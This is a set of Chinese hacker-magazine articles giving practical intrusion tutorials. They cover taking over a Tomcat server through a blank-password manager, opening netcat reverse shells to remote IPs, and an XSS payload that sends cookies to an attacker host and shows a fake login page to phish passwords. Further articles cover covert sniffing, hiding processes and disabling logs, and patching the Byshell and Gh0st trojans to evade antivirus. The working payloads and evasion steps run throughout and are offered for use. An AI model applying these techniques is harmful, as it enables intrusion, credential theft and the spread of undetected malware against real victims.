> **编辑点评：** 这是一个破解邮箱的思路。不过我在想，要是国外的是不是要特别精通外语呢？

# Tomcat 后台另类用法示例

lafkkk

**从本文你可以学习到 Tomcat 后台的入侵办法**

此次入侵纯属路过，顺便复习一下 tomcat 后台利用的另一种用法，也和大家分享一个实例。我的目标是一个小型的站点，或许有的时候大家会觉得入侵小型站点会比较容易，其实不然，一个技术还可以的人好好去管理一个小型站点，由于工作量小，难度低，安全性会非常高！有的时候碰到这种站点或许你就会感慨自己的技术太菜了，这次成功入侵或许是运气不错吧。废话不多说，开始正题！

打开网站，这是一个学校研究生的网站，是一套简洁的 ASP 新闻发布程序（自己也带写），这种程序在脚本安全上实现起来非常容易！我们先来测试下看看，随便找个新闻在后面的参数 id 后面加上“+select”（+ 号表示空格），提示：不要提交非法字符，如图 1 所示。

看来有防注入，接着测试了下 POST 方式和 Cookies，发现都不行，应该是指定了变量获取方式，或者过滤和注入这三方面都考虑到了！接着我又找到了一个后台页面，也没有传统的逻辑漏洞！突然发现了新的东西，服务器上还开着 tomcat，如图 2 所示。

下面我们直接访问 http://target:8080/manager/html/，成功地跳出了登录界面，用户名 admin，密码为空。成功进入后台，本以为到这里就快结束入侵了，可是我用老办法将一个 JSP 木马打包成 war（注意：打包的时候是打包成 zip，然后再更名为 .war，最好不要打成 .rar，我在 xp+tomcat5.5 下打包成 .rar 无法正确解析）后上传服务器解析出错，如图 3 所示。

下面我们再看另外一种利用方法！直接访问目标 http://target:8080/admin/，出现登录界面，用户密码还是与刚才一样的。登录后我们要通过 tomcat 的建立虚拟目录来访问本地的磁盘文件，具体步骤是：Service---host---actions---Create New Context，建立虚拟目录。

Document Base 填你想浏览的目录，比如 e:\，Path 自己随便写，例如 /ee，记住要有斜划线啊！如图 4 所示。然后我们直接访问 http://target:8080/ee/ 就会出现 e 盘的所有文件，如图 5 所示。然后分别慢慢找到那个 web 目录（可以通过对比访问相关文件确定），接着找到那个数据库链接文件。打开后你会发现是空白的，不用担心，他是在服务端解析了，直接查看源码文件就可以获得源代码了，如图 6 所示。之所以没有显示，是因为 JSP 中有一部分标记是和 ASP 相同的！

然后下载数据库，到后台登录发现一个类似 ewebeditor 的编辑器，接着再利用查看源文件获得这个编辑器的管理员密码，如图 7 所示。

然后就是登录后台添加一个 asa 文件类型，再上传一个小马后写入大马（相信大家都会，而且在这里这又不是重点，就一笔带过了哈），最后顺利获得 webshell，如图 8 所示。

下面就应该是提权了。非常容易地在这个站点的其他目录下找到一个数据库连接文件，而且 sa 密码为空，尝试直接外部连接时发现连接不上，所以就传了个 nc 上去，执行 nc.exe -vv -e cmd.exe 202.195.X.X 80，首先在本地监听 80 端口（nc -vv -l -p 80，选择 80 端口是因为怕防火墙拦截，这个时候最好关闭本地的 web 服务或者迅雷，不然的时候会反弹不回来的！），如图 9 所示。最后得到一个命令行下的 cmdshell，权限是 system 的。

后记：其实这种方法有人提过，我就顺便举一个实例吧，毕竟实例总比理论来得有兴趣！个人感觉这个入侵就像是大学的数学，谁都听得懂。看题目都很简单，但是自己去实践一下会发现好多问题滴！高手见笑了，本菜鸟《黑客手册》ID：lafkkk，欢迎交流！

> **编辑点评：**
>
> tomcat 后台上传 war 的办法我没有试过，不过看到作者不成功，我上网搜索了一下，发现应当是用 jar.exe 来打包 JSP 为 war 的，并且还要有一定的格式，我估计作者不成功是否因为这个原因呢？
>
> 高专：
> 专栏开了半年多了，出的题目有 VBS 和批处理在入侵中的作用、入侵中注意的细节及跨站。这期依旧是跨站和入侵细节的两篇文章，出于对跨站的重视，所以我打算跨站连做 4 期，这是第 3 期了；另外，也是出题人的脑筋枯萎所致，所以下期我们还是以前的专题题目，本栏目针对以前的专题题目依旧是欢迎来稿，长短不限。

# 跨站攻击实例

从本文你可以学习到如何利用跨站来攻击

上一期余弦和 lcx 兄给大家带来了经典的 XSS WORM 讲解，今天 NP 就给大家带来一篇 XSS 的实例，让我们从理论走进实战中，从弹框框升华到获取我们需要的东西。今天的实例环境如下：

- 目的：获取 COOKIE 以及用户密码
- 目标：XXX 站的一个火热栏目
- BUG：标题处完全无 XSS 检测及过滤

利用分析：首先我们测试下直接调用远程 JS 的效果。如图 1 所示，我们在标题栏输入 "This is test <script src=http://xxx.xxx.com//1.js></script>"，JS 测试代码我们可以用随便的 alert 警告窗口，如图 2 所示。

OK，来一步步实现我们所需要的功能。第一步是获取 COOKIE，方法如下：

方法 1，1.js 代码如下：

```javascript
document.write("<iframe src=http://\/\/xxx.xxx.com/2.asp?cookie="+escape(document.cookie)+" width=0 height=0 marginwidth=0 marginheight=0 frameborder=0></iframe>");
```

方法 2，1.js 代码如下：

```javascript
/* 此方法在 IE 测试权限拒绝，是因为 xmlhttp 有跨域的问题，本地是可以的，远程不行，只不过提出来让大家了解或参考一下 */
var XMLHTTPRequestObject = new ActiveXObject("Microsoft.XMLHTTP");
XMLHTTPRequestObject.open('GET', 'http://xxx.xxx.com/2.asp?cookie=' + escape(document.cookie), true);
XMLHTTPRequestObject.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
XMLHTTPRequestObject.send(null);
delete XMLHTTPRequestObject;
```

第二步是我们要解决假登录页面问题（如何让用户看不出来呢？），我采用的方法是在原页面的基础上，当载入时重写整个页面代码。其中采用了 window.onload，实际应用代码如下：

```javascript
window.onload=dojs
/* 当载入的时候执行 dojs 函数 */
function dojs() {
    document.write("<iframe src=http://\/\/xxx.xxx.com/1.htm width=1010 height=1050 marginheight=0 marginwidth=0 frameborder=0><\/iframe>");
}
/* 由于我测试的目标 XSS 点本身就在框架内，所以我不得不重新定义整个框架的大小，达到隐蔽的目的 */
/* 实战时，请根据具体情况进行修正（修改宽度和高度为 100%） */
/* 重写整个页面，1.HTM 页面则是真实登录页面的镜像，只是里面提交的 URL 被我们替换了 */
```

其次，我们要解决重复访问的问题，这边我们用 COOKIE 来控制触发次数！最后实现整个功能的 JS 代码如下：

```javascript
/* 以下代码是用 COOKIE 控制访问次数 */
function setCookie(sVar, sVal){
    theCookie = sVar + '=' + sVal + '; expires=Fri, 1 Jul 2010 09:45:27 UTC';
    document.cookie = theCookie;
}
function getCookie(sVar){
    cookies = document.cookie.split('; ');
    for(var i = 1; i <= cookies.length; i++){
        if(cookies[i - 1].split('=')[0] == sVar){
            return cookies[i - 1].split('=')[1];
        }
    }
    return '';
}
function doWrite(){
    window.onload=dojs
    /* 当载入的时候执行 dojs 函数 */
    function dojs() {
        document.write("<iframe src=http://\/\/xxx.xxx.com/2.asp?cookie="+escape(document.cookie)+" width=0 height=0 marginwidth=0 marginheight=0 frameborder=0><\/iframe>");
        /* 这句是为了获取用户 COOKIE 的 */
        document.write("<script>alert('Session False, Please login again!');<\/script>");
        /* 这句是为了欺骗用户，告诉用户，他的 SESSION 失效了，需要重新登录（以此欺骗用户来获取用户的用户名和密码） */
        /* 效果如图 2 */
        document.write("<iframe src=http://\/\/xxx.xxx.com/1.htm width=1010 height=1050 marginheight=0 marginwidth=0 frameborder=0><\/iframe>");
        /* 由于我测试的目标 XSS 点本身就在框架内，所以我不得不重新定义整个框架的大小，达到隐蔽的目的 */
        /* 实战时，请根据具体情况进行修正（修改宽度和高度为 100%） */
        /* 重写整个页面，1.HTM 页面则是真实登录页面的镜像，只是里面提交的 URL 被我们替换了 */
    }
}
if(getCookie('cookie') == ''){
    doWrite();
    /* 若 COOKIE 值为空，则执行 doWrite 函数，并设置 COOKIE 值为 XSSCOOKIE（限制客户的访问次数，增加隐蔽性） */
    setCookie('cookie', 'XSSCookie');
}
```

### 接收 ASP 页面内容如下：

```asp
<%
Set Fso=CreateObject("Scripting.FileSystemObject")
With Fso.OpenTextFile(server.mappath("./xxxx.txt"), 8, true)
' 用 FSO 组件记录发送过来的用户名、密码以及 COOKIE 等信息
.writeline request("name")
.writeline request("password")
```

访问时的效果如图3、图4、图5所示。

这里要特别说下 XML 发送 COOKIE 的跨域问题，我没有解决掉，就是方法2中的 js 是不可行的。如果你有更好的方法，希望能共享下哦。

# 渗透时注意到的细节

通过本文你可以学到：

- 1、提权相关经验
- 2、sniffer 及 Cain 相关实用技巧
- 3、入侵后如何做到隐藏自己

在《黑客手册》2008年01期中看到 LCX 写了篇《我在入侵过程中注意到的细节》，阅读后有些启发，并且关于某些细节，我有一些自己的心得，写出来分享一下，也望大家多多指教。

## 一、提权相关

### 1、社工

提权难道必须 Serv-U 提权？非要溢出？非也！很多时候“社会工程学”比啥都好用。首先，如果你从网站数据库连接文件中看到数据库密码后，第一要试的就是 ftp 密码了。然后就是 3389 和 ssh，接下来通过 webshell 把他数据库读个遍。如果方便，最好把数据库 dump 下来，在本机上慢慢研究，一来少留 web 日志，二来也许有很多信息需要以后慢慢挖掘。如果你还没读完数据库就被人发觉了，多可惜。

要知道安全和便利始终是个矛盾。作为管理员，密码过多肯定不容易记，所以他会有几个地方密码绝对是相同的，至少也会有规律。如果你 3389 登录到目标主机后，查看一下 c:\docume~1\administrator\my document\ 目录下的 *.rdp 文件，假设他登录过其他 IP，你就可以用当前密码试试运气了，嘿嘿。还有在“运行”那里看看有没有 ping 或者 ftp 其他的 IP，或者直接用 cain 可以得到 IE 中缓存的密码和 OE 中保存的密码，然后就看系统中是否有 pcanywhere。如果有，也许你就又多了几台肉鸡了。还可以查看有没有 FTP 软件，它经常会保存一些网站的登录信息，这样又能捡到几个站了。

通常，我们能得到的有以下几种密码：数据库密码、ftp 密码、pcanywhere 密码、mail 密码。一定要多“挖掘信息”，无论在渗透的初期或过程中，甚至于保持你对目标“稳固”的控制权，是很有帮助的。

### 2、“可靠的”shell

某次，针对某主机已经有系统权限，却无法添加用户的问题，搞得我很郁闷。在没有办法的情况下，我尝试传了个 nc 上去，使用命令：

```bash
nc 66.66.66.66 8080 -e c:\windows\system32\cmd.exe
```

> 编辑点评：
> 在这个站进行渗透测试时，NP 的代码我看过（我出过力呀，嘿嘿），整个流程我也了解，效果还是不错的。文章中的代码 NP 注释得很详细，大家看文章不仅要看文字，更要看代码呀。

因为这个 shell 是“可交互”的，命令错误能够回显，这时才看到，原来添加用户时有返回提示信息，是设置了密码策略，是我之前添加的用户密码强度不够，哈哈！这下明白了，密码设置得复杂些，顺利拿下主机。

怎么样才能让错误信息回显呢？可以使用“句柄复制”，大家请看如图1所示的例子。

因为系统中没有“aaaaaa”这个命令，所以是错误的，shell 没有返回错误信息。而如图2所示中，这里使用了句柄复制，错误的信息就返回了！

#### 2>&1 的意思是将句柄 2（即 STDERR）重定向到句柄 1（即 STDOUT）。

Linux 系统年初暴了个 vmsplice Local Root Exploit 提权漏洞，相信大家有不少收获吧。我们得到的 Exp 会开启 root 权限的 shell，但既不是反弹连接，也不是 bind port。可能大家一般都是用 c99shell 返回个 shell，然后在这个 shell 中用 exp 提权吧？可是有很多比较 BT 的服务器似乎不能用 c99shell 返回一个 shell，这下又挡住了一批人。怎么办呢？大家别忘记网络 netcat 啊！短小强悍的万能工具。

我们输入以下命令：

```bash
gcc -o lvs lvs.c
nc 66.66.66.66 8080 -e ./lvs
```

OK，是不是又看到了可爱的 shell 了？root 哦！

### 3、对于“权限”的理解

很多人拿到服务器就开始搞所谓“提权”，其实能拿到自己所要的东西后，最好不要做更多的“动作”，这样既能有效隐蔽自己，还达到了目标，甚至能长期“潜伏”^_^。

比如你得到服务器的 mysql 的 root 账户后，先使用命令使 mysql 能远程连接：

```sql
grant all on *.* to root@'%' identified by 'rootpassword';
FLUSH PRIVILEGES;
```

这样，除非服务器专门对 mysql 有日志审核，基本上不太容易被发现，或者可以通过 mysql 来写入 shell，甚至在用 Serv-U 提权时修改默认密码。mysql 的 root 账户在 Windows 系统下，权限已经很高了，甚至很多人碰到 Windows 下的 apache 服务器时，居然还在考虑提权……其实这已经是 system 权限了啊！

## 二、sniffer 及 Cain 相关

### 1、定时关闭程序

在使用相关嗅探软件时，运行过程中可能会把系统搞挂掉，或者因转发的数据量超大导致“变相的 DDOS”，这时我们可以用批处理脚本加 at 来定时杀掉和关闭 cain。

```bat
@echo off
taskkill /f /fi "modules eq WanPacket.dll"
echo "" > ka.bat
```

（保存为 ka.bat。）

将以上代码保存成 ka.bat 文件，然后使用命令 at 10:00 c:\windows\ka.bat。这里为啥要在10点关闭呢？因为很多 admin 刚上班要上服务器看看啊，等他看完发觉流量有问题的时候，我们已经关闭了 sniffer 了，嘿嘿。

### 2、日志文件过大时解决办法

通常我们可能需要长时间的 sniff 才能得到想要的信息，这时可能会出现超大的日志，我就碰到过 10 秒 RDP 的记录达到 200M 的，用记事本肯定打不开。而下载下来看也麻烦，怎么办？我提供一个简单的 perl 脚本来提取我们只需要看到的前 200 行就好了，因为密码肯定在前 200 行。以下是代码：

```perl
#!perl -w
#clog.pl by xt9
my $inf=shift; # 命令行参数，即为原日志文件
my $count=0; # 初始化计数器并置零
open(INF, $inf); # 打开文件句柄
open(OTF, "+>>$inf.log"); # 打开输出文件句柄
while($al=<INF>) # 循环读取每行
{
chomp $al; # 去掉换行符
$count++; # 计数器累加
print OTF $al."\n" if $count<200; # 如果计数器小于200则继续输出到新文件
}
close OTF; # 关闭句柄
close INF; # 关闭句柄
```

程序后面直接以目标文件绝对路径作为参数，会生成 .log 文件，内容则为原文件的前 200 行。

### 3、绿色 cain

其实这个东西早就有了，不过很多人不知道。Cain 其实只需要主程序就可以用了，再加上 winpcap 的三个 DLL 文件和一个驱动，只需要添加一个内核驱动服务就可以了。我们可以用以下脚本“绿色”安装它。

```bat
@echo off
set SysDir=%SYSTEMROOT%\System32\
copy packet.dll %SysDir%\packet.dll /y
copy wpcap.dll %SysDir%\wpcap.dll /y
copy wanpacket.dll %SysDir%\wanpacket.dll /y
copy npf.sys %SysDir%\drivers\npf.sys /y
copy cain.exe %SysDir%\ras\svchost.exe /y
sc create npf binpath= %SysDir%\drivers\npf.sys type= kernel start= demand
del packet.dll /a
del wpcap.dll /a
del wanpacket.dll /a
del npf.sys /a
del cain.exe /a
del casp.exe
del %0
```

该脚本文件已经收录在光盘中，大家不妨一用，呵呵！

## 三、隐蔽自己

### 1、隐蔽程序

很多时候我们在登录 3389 后，需要长时间开着一些程序。如果登录的是管理员的账户，很可能我们断开后，管理员一登录就会看到窗口。这时候我们需要隐蔽运行，怎么办呢？我给大家提供个 perl 代码。

```perl
#! perl -w
use Win32; # 使用win32 模块
Win32::SetChildShowWindow(0); # 使子程序的窗口不可见
ST:
system("c:\windows\system\svchost.exe /d2 /p 80 /S 50 /F job.txt 66.66.66.66 66.66.66.*"); # 这就是执行命令了。注意路径必须是双斜杠，或者反斜杠也可以。
Sleep 5 and goto ST; # 如果上面程序结束，休眠5秒又继续，这起了个保护进程的作用。
```

然后我们在使用 PDK 编译时把 Hide console 选项勾上，再将程序名改为 smss.exe 放到 system 文件夹。这样运行我们的程序后就看不到任何窗口了，如图3所示。

在使用 cain 的时候，有一个 hide 选项（如图4所示），快捷键是 Alt+Del，调出是 Alt+PageUp。

### 2、避免日志暴露行踪

有时候由于数据量过大，会导致 cain 直接挂掉。然后等下次管理员登录时会出来个“应用程序错误”报告，对我们很不利，这时我们可以把错误报告关闭，避免暴露。设置方法如图5所示。

还有类似杀毒软件的一些日志功能，我们也可以关闭掉，如图6所示。这些地方的日志审核，不勤快的管理员不会发觉的，但一旦暴露对我们影响很大。

结束语：以上都是些并无多大技术含量的小技巧。有时候我们渗透时为啥就不成功？某些肉鸡为啥轻易就丢掉？注意一下细节，也许能对我们有很大的帮助。

[文章中的相关程序及代码已收录在本期光盘]

编辑点评：

其实我当初定的题目是入侵过程中注意到的细节，是非常苛刻的，因为有的作者可能一个细节就会写成一篇大章；在同一篇文章里写 N 个细节，可能需要作者的全部经验拿出来分享了。经验都是靠积累的，这个专栏提供了直接获取作者经验的捷径，我们应当感恩呀！这篇文章值得收藏。

> Cracker 兔语：
> 八月桂花香啊，又到八月啦！对于读书的朋友，暑期也过了一半了，你是否将暑期的学习安排好了呢？尤其是刚高考的同学，成绩应该出来了吧，是否能够进入理想的大学呢？不管如何，人生就是个学习过程，不然怎么会有“姜还是老的辣”这一说法呢？我想技术也大概如此吧，玩久了自然经验也就丰富了。

# Byshell 终极免杀实战

从本文你可以学习到：

- Byshell 的免杀方法

## 序言

如今的杀毒软件与木马的战争呈现愈演愈烈的状态，手中的木马做完免杀没几天又成了杀毒软件的刀下亡魂。特征码的更新，杀毒引擎的优化，主动防御的技术优势，让我等菜鸟无不感慨万千。所以选择一款低曝光率、高性能的木马，成为眼下当务之急。

这次我挑选了 byshell 这款木马，随着 08 年几近销声匿迹的趋势，让杀毒软件对其的关注度逐渐调弱；而且其灵活的修改程度及服务端封装的性质又使它的修改颇具挑战性。废话打住，马上进入实战。

## 环境

- Byshell 软件版本：20071207
- 杀毒环境：瑞星杀毒软件（病毒库：2008-05-26）
- 使用工具：myccl（特征码定位工具）、OC（偏移量转换）、restorator（资源修改）、peeditor（校正修复）、OllyICE（特征码修改）、C32ASM（sys 特征修改）

## 实战过程

首先用 restorator 载入 byshell，选择 server 的 exe 资源进行保存，我们将保存类型设为“所有文件”，文件名为 exe.exe，如图1所示。

这个其实就是封装在客户端里的服务端文件，我们只要把该文件进行免杀后导入到客户端，就能直接生成免杀服务端了。这里我们不忙对此文件进行免杀，因为 byshell 采用了 dll 插入技术及 sys 驱动保护。

我们继续用 restorator 对 exe.exe 的资源进行导出，生成 BYSHELL_DLL.dll 及 NTBOOT32BP.sys。接下来的任务就简单了，依次对这三个文件进行免杀操作。首先看 NTBOOT32BP.sys，这里直接给出用 myccl 定位的特征码，如图2所示。

| 特征码 | 物理地址/物理长度 | 如下： |
| --- | --- | --- |
| [特征] | 00001D36_00000002 |  |

图2 myccl 定位特征码

我们用 c32asm 载入 sys 文件后来到 00001D36，对应代码为 JNZ SHORT 00011D3F，很显然的一个跳转。我们直接修改为 Jmp SHORT 00011D3F。

一般情况下，用 jmp 跳转代替指令是可行的。保存后我们用 peeditor 载入文件，使用“校验和”进行修复，这样我们的 sys 免杀就做好了。

再来看看 dll 文件，myccl 定位的特征码如图3所示。

| 特征码 | 物理地址/物理长度 | 如下： |
| --- | --- | --- |
| [特征] | 0000A70F_00000002 |  |

图3 myccl 定位特征码

用 OC 转换文件偏移到内存偏移 1000A70F，用 OD 载入后使用 ctrl+G 组合键跳到该地址对应的汇编代码处：mov dword ptr [esp+14], esi，这里由于连续性，贴出一段相关代码：

```asm
1000A705 |. FF15 60630110 call dword ptr [<&WININET.InternetOpenW>]; WININET.InternetOpenW
1000A70B    8BF0          mov  esi, eax
1000A70D    85F6          test esi, esi
1000A70F    897424 14     mov  dword ptr [esp+14], esi
1000A713    74 36         je   short 1000A74B
1000A715    6A 00         push 0
```

上面 call 了一段函数，按一般理解是可以用 jmp 跳转法。直接在此处 nop，跳到空白处插入代码后跳回，是可以成功的，但是结合整段代码我们不难发现，直接把 mov 改为 test，其效果是相同的。这样我们就可以直接修改此处为：test dword ptr [esp+14], esi。

我们暂不做 exe 文件免杀，现在要验证 sys 和 dll 文件是否修改好了。虽然通过了瑞星的查杀，但是程序不一定能正常释放。我们把免杀的 sys 和 dll 文件导入 exe.exe 另存为 exe1.exe，并导入到 byshell 客户端的 server 资源树，再生成一个服务端。经过测试后能正常运行，现在安心地做 exe1.exe 的免杀了。

这个文件在狭义上来讲属于“内存免杀，文件不免”，算是一个新鲜的概念吧。我们看特征码，如图4所示。

| 特征码 | 物理地址/物理长度 | 如下： |
| --- | --- | --- |
| [特征] | 00002FC3_00000002 | 00402FC3 |

图4 myccl 定位特征码

后面是 OC 转换的内存地址，用 OD 载入后不禁窃喜，一起偷笑吧：

```asm
00402FC3 |. 50            push eax
```

看到没有，通常概念下把 push 改为 pop 是 OK 的，这不是之前爆出的瑞星通杀的万能修改吗？我们直接改为 pop eax 后保存。之前我测试过，“裸体”的服务端程序因为没有配置信息，是会进驻内存而呈“无头苍蝇”状狂吃 CPU，可是我们修改特征后的程序却出现错误提示，如图5所示。

这里不用去分析错误报告，只能说明这种方法是行不通了，看来瑞星真是有其一套。这里看看周边代码段：

```asm
00402FC3    50            push eax
00402FC4 |. 8B45 FC       mov  eax, dword ptr [ebp-4]
00402FC7 |. C745 FC FFFFF>mov  dword ptr [ebp-4], -1
00402FCE |. 8945 F8       mov  dword ptr [ebp-8], eax
```

如果这里用跳转法，会因为 nop 后字节不够而无法腾出空间 jmp，更改后面的代码只会集体下移，这样修改是行不通的。

可是菜鸟不懂汇编，又只掌握了那几招几式，这该如何是好？仔细看这几个 mov 指令，都是操作 eax 寄存器，我们可以直接采用 nop 移位整合代码呀！我是这样修改的：

```asm
00402FC3    90            nop
00402FC4 |. 50            push eax
00402FC5 |? 8B45 FC       mov  eax, dword ptr [ebp-4]
00402FC8 |? 8945 FC       mov  dword ptr [ebp-4], eax
```

```text
00402FCB |? 90
nop
00402FCC |? 90
nop
00402FCD |? 90
nop
00402FCE |. 8945 F8
mov
dword ptr [ebp-8], eax


```

虽然不是很科学，但是也能保证程序免杀及正常运行，这里的修改是很灵活的。最后把整合好免杀sys和dll的exe1.exe文件免杀完毕后导入到byshell的客户端，整个免杀就算完成了。开启瑞星的所有监控，运行我们的劳动成果，同时顺利通过内存监控和主动防御。由于对应服务的文件是空壳的exe，而真正的操作还是插入进程，所以360安全卫士的监控也是不会拦截到新建服务的。

# 后记

我们不难看出，整个免杀的流程下来，每个独立文件的特征码只有一处，并且没有内存及主动防御特征。如果是灰鸽子或者pcshare，恐怕特征码集中下来不会少于7处。Byshell的特点在于不需要携带任何附加的配置文件，只需要把免杀服务端整合到客户端就能独立携带了。Byshell的缺点也有很多，但是作为一款并不成熟的远程控制软件，是可以理解的。

此文章的目的并不完全在于免杀的技巧，因为公布的结果就是杀毒软件重新更正特征。我们鼓励读者自己认识和学习汇编，只有懂汇编才是真正的免杀高手。大脑是活的，代码也是活的，灵活的掌握才是成功的根本。同时提醒大家尽量使用生僻的木马，这样的免杀才能保证存活率，同时PS一下：杀毒公司的员工也可以好好歇歇了。

【本文介绍的相关程序已收录在本期光盘中】

## 编辑点评：

正如作者所提到的那样，杀软为什么会杀木马？因为代码在做怪。程序是自动的，但是程序却是由人写出来的，归根到底，还是从代码上入手，那么免杀就能够越来越久远。
从本文你可以学习到：
Gh0st木马的源代码免杀方法

传统的特征码识别技术虽然大势已去，早已不能代表“先进生产力的发展要求”，但目前仍有不少安全软件还是用它来识别已知病毒和木马，这就给某些已知木马逃脱安全软件的查杀提供了可能。本文讨论的是Gh0st木马在源代码基础上的免杀策略。

## Gh0st木马简介

Gh0st是一款源代码公开，体积小巧的木马，它的客户端（控制端）只有237K，生成的服务端（被控端）只有112K，并没加壳，方便免杀的制作。它除了具有文件管理、屏幕监视、键盘记录、远程终端、系统管理、视频监控、会话管理等功能外，还有自动恢复SSDT的功能。
SSDT是用户模式（Ring3）到达内核模式（Ring0）的一道门，因此很多安全软件都在这道门上做了手脚，在这里进行拦截，判断善恶，再决定放行与否。

笔者下载到的Gh0st源代码由两个.rar文件组成，分别是客户端和服务端，目录结构如图1所示。

## 编译Gh0st

编译生成可执行程序的过程是：

- 第一、用DDK编译sys文件夹下的文件，并链接生成RESSDT.sys文件。
- 第二、把这文件放到Server\Release下，双击Server.dsw文件，编译链接后，在Server\Release下会生成一个svchost.dll文件。
- 第三、编译\Server\install下的install.dsp工程，会在\Server\install下生成install.exe文件，这便是服务端程序。
- 第四、将上面生成的install.exe文件复制到\gh0st\res后，双击gh0st.dsw文件，编译链接后生成的gh0st.exe文件便是客户端程序。

从上面四个步骤可知，RESSDT.sys文件以资源的形式存在于svchost.dll文件中，svchost.dll文件也以资源的形式存在于install.exe文件中。因此我们要做的是，先做RESSDT.sys文件的免杀，再做svchost.dll文件的免杀，之后再做install.exe文件的免杀。install.exe文件免杀后，服务端便是免杀的了。下面以瑞星为例，做Gh0st的免杀。

## RESSDT.sys文件的免杀

要想让RESSDT.sys文件不被瑞星查杀，就得先定位出它的特征码，然后修改它，但要保证修改不影响它的正常运行。用MyCCL定位特征码，结果如下：

```text
文件名:E:\gh0st\RESSDT.sys
特征码 物理地址 / 物理长度 如下:
[特征] 000005C8_00000002
[特征] 000005E0_00000002
[特征] 000009C6_00000002
[特征] 000009E6_00000002


```

我们先来看看前两处特征码，用C32ASM打开找到0x5C8和0x5E0处，如图2所示，显然这两处分别是Unicode编码的\Device\RESSDT和\??\RESSDTDOS字符串。
找到这个驱动文件的源代码文件中这两处字符串，相关代码如下：

```c
RtlInitUnicodeString(&DerName,L"\Device\RESSDT");
status=IoCreateDevice(theDriverObject,0,&DerName,
FILE_DEVICE_UNKNOWN,0,FALSE,&pDevObj);
if(!NT_SUCCESS(status))
{
//DbgPrint("IoCreateDevice Fail!");
return status;
}
RtlInitUnicodeString(&DerName2,L"\??\RESSDTDOS");
```

为使生成的PE文件中没有刚才的字符串，而程序又要能正常运行，可以定义下面的两个字符数组，其存放的正是这两个字符串。

```c
//L"\Device\RESSDT"
char pDevice[]={0x5c,0x00,0x44,0x00,0x65,0x00,0x76,0x00,0x69,
0x00,0x63,0x00,0x65,0x00,0x5C,0x00,
0x52,0x00,0x45,0x00,0x53,0x00,0x53,0x00,0x44,0x00,0x54,0x00,0x00,
0x00};
//L"\??\RESSDTDOS"
char pRESSDTDOS[]={0x5C,0x00,0x3F,0x00,0x3F,0x00,0x5C,0x00,
0x52,0x00,0x45,0x00,0x53,0x00,
0x53,0x00,0x44,0x00,0x54,0x00,0x44,0x00,0x4F,0x00,0x53,0x00,0x00,
0x00};
```

而用到这两个字符串的函数调用分别改成：

```c
RtlInitUnicodeString(&DerName, (PWCHAR)pDevice);
和RtlInitUnicodeString(&DerName2, (PWCHAR)pRESSDTDOS);


```

再看另外两处的特征码：[特征] 000009C6_00000002和[特征] 000009E6_00000002，在 C32ASM 中找到这两处特征码，如图 3 所示，可以看到有很多字符串，而字符串是函数的名称。由此第一感觉是：这是 PE 的输入表所在地。为了证实是不是这样，用 PEditor 打开可以看到输入表 RVA 为 0000094C，再看一下下表，以确定这个 RVA 对应的文件偏移。节表如图 4 所示。
| 节 | 虚拟大小 | 虚拟偏移 | 原始大小 | 原始偏移 | 特征值 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| .text | 00000250 | 00000400 | 00000280 | 00000400 | 60000020 |
| .rdata | 00000104 | 00000700 | 00000180 | 00000700 | 40000040 |
| .data | 00000020 | 00000880 | 00000080 | 00000880 | C0000040 |
| INIT | 000001A2 | 00000900 | 00000200 | 00000900 | E2000020 |

可以看到虚拟偏移和原始偏移相等，也就是 RVA 与文件偏移相等。因此，上面两处特征码是导入函数名称的字符串就不用怀疑了。证实之后，是不是应该想办法把这些字符串去掉呢？办法肯定是有的，那就是将按名字导入改为按序号导入，这样就不需要函数名称字符串了。至于怎样将按名字导入改为按序号导入先不讨论，等下面介绍完导入表的原理后，自然就明白要怎样做、为什么要这样做了。

导入表由一系列（对于 RESSDT.sys 只有一个）的 IMAGE_IMPORT_DESCRIPTOR 结构组成，IMAGE_IMPORT_DESCRIPTOR 结构的定义如下：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;
        DWORD   OriginalFirstThunk;         //00000974
    };
    DWORD   TimeDateStamp;                  //00000000
    DWORD   ForwarderChain;                 //00000000
    DWORD   Name;                           //00000A94指向“ntoskrnl.exe”
    DWORD   FirstThunk;                      //00000700指向IAT
} IMAGE_IMPORT_DESCRIPTOR;
```

对于 RESSDT.sys，根据 PE 文件结构的定义，0000094C 处是一个 IMAGE_IMPORT_DESCRIPTOR 结构，也是导入表开始的地方，OriginalFirstThunk 字段和 FirstThunk 字段都指向一个包含一系列 IMAGE_THUNK_DATA 结构的数组，数组中的每个 IMAGE_THUNK_DATA 结构定义了一个导入函数的信息。一个 IMAGE_THUNK_DATA 结构实际上就是一个双字，之所以把它定义成结构，是因为它在不同的时刻有不同的含义，结构的定义如下：

```c
typedef struct _IMAGE_THUNK_DATA64 {
    union {
        PBYTE  ForwarderString;
            PDWORD Function;
            ULONGLONG Ordinal;
            PIMAGE_IMPORT_BY_NAME  AddressOfData;
        } u1;
    } IMAGE_THUNK_DATA64;
    typedef IMAGE_THUNK_DATA64              IMAGE_THUNK_DATA;
```

当 IMAGE_THUNK_DATA 结构（就是指双字）的最高位为 1 时，表示函数是以序号的方式导入的，这时双字的低位就是函数的序号，我们可以用预定义值 IMAGE_ORDINAL_FLAG32 (或 80000000h) 来对最高位进行测试。当双字的最高位为 0 时，表示函数以字符串类型的函数名方式导入，这时双字的值是一个 RVA，指向一个用来定义导入函数名称的 IMAGE_IMPORT_BY_NAME 结构，此结构的定义如下：

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD    Hint;
    BYTE    Name[1];
} IMAGE_IMPORT_BY_NAME, *PIMAGE_IMPORT_BY_NAME;


```

结构中的 Hint 字段也表示函数的序号，不过这个字段是可选的，Name 字段定义了导入函数的名称字符串，这是一个以 0 为结尾的字符串。如图 5 所示，表示了可执行文件导入了 Kernel32.dll 中的 ExitProcess、ReadFile、WriteFile 和 lstrcmp 函数的情况。其中，前面 3 个函数按照名称方式导入，最后的 lstrcmp 函数按照序号导入，这 4 个函数的序号分别是 02f6h、0111h、002bh 和 0010h。

现在来分析一下图 5 中的示例，导入表中 IMAGE_IMPORT_DESCRIPTOR 结构的 Name 字段指向字符串 “Kernel32.dll”，表明当前要从 Kernel32.dll 文件中导入函数，OriginalFirstThunk 和 FirstThunk 字段指向两个同样的 IMAGE_THUNK_DATA 数组。由于要导入的是 4 个函数，所以数组中包含 4 个有效项目，并以最后一个内容为 0 的项目作为结束。
